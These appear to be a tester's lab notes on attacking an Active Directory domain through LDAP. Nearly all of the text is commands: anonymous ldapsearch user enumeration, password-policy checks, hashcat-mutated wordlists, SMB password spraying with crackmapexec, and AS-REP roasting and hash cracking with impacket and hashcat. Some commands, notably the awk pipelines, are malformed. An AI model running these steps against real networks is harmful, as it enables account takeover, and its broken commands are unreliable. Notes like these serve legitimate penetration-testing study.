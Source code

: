 # LDAP

Port: 389
IP: 10.10.10.10

Ldap has decent attack surface.

## Usages

`ldapsearch -h 10.10.10.10 -x  -s base namingcontext`
-x: basic authentication
-s: scope
base: `namingcontext`

```Output
dn:
namingcontext: DC=nullbrain,DC=local
namingcontext: CN=configuration,DC=nullbrain,DC=local
```


`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" > ldap-anonymous.out`
or,
`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" '(objectClass=person)'`

```Output
Important informations like
	Creationdate: when created
	Email: email
	Login success: count
```


Windows usage AD timestamp could be converted to human readable at https://www.epochconverter.com/

### passwordspray

1. `STOP`  & `check` if `passwordspray` is going to lock accounts.
	- `crackmapexec smb 10.10.10.10 --pass-pol`
	Or,
	- with password policy in order to do null authentication attempt
		- NOTE: This doesnot work with vanila 2016+
		`crackmapexec smb 10.10.10.10 --pass-pol -u'' -p''`
		Check for account lockout threshold.
	Or,
	- `enum4linux 10.10.10.10`
1. Generate list of username
	`ldapsearch -h 10.10.10.10 -x -b "DC=nullbrain,DC=local" '(objectClass=person) SAMAccountName | grep sAMAccountName awk {}'print $2'}`
	- include: user account (none computer/exchange)
	Or,
	- `rpcclient -U '' 10.10.10.10`
		- `enumdomusers`
			- `queryuser ridxxx`
	- store all at `userlist.out`
1. Create password list. (`pwlist.txt`)
	- Include:
		- months are nice thing to brute-force (`January`...`December`)
		- `password`, `p@ssw0rd`, secret, season (autumn, winter, summer)
		- servername, vendor name etc.
		- `years`, `!`: `for i in $(cat pwlist.txt); do echo $i; echo ${i}2019; echo ${i}2020; echo ${i}\!; done`
		- mutate passwords: `hashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule`
		- Toggle various upper cases: `-r /usr/share/hashcat/rules/toggels1.txt
		- Truncate duplicates & greater than 7: `| sort -u | awk 'length($0)' > 7`
1. Fire
	- Run in TMUX or some session as it is going to take some time.
	- `crackmapexec smb 10.10.10.10 -u userlist.out -p pwlist.txt`
1. [impacket](https://github.com/SecureAuthCorp/impacket)
	- GetNPUsers.py
		- For users that do not require kerberos preauthentication.
			- `./GetNPUsers.py dc-ip 10.10.10.10 -request 'nullbrain.local/' -format hashcat`
	- Check hash type
		- `./hashcat --example-hashes | grep -i <hash_string>`
		- ensure and get id <18200>
	- crack the hash
		- `./hashcat -m <18200> hashes/my-stored-hash /opt/wordlist/rockyou.txt -r rules/InsidePro-PasswordsPro.rule`
			- rules for cracking
1. Check if compromised user from above has access.
	- `crackmapexec smb 10.10.10.10 -u <username> -p <password>`
	- Pawned?
		- if Not
			- Finding Passwords in SYSVOL & Exploiting Group Policy Preferences <TODO>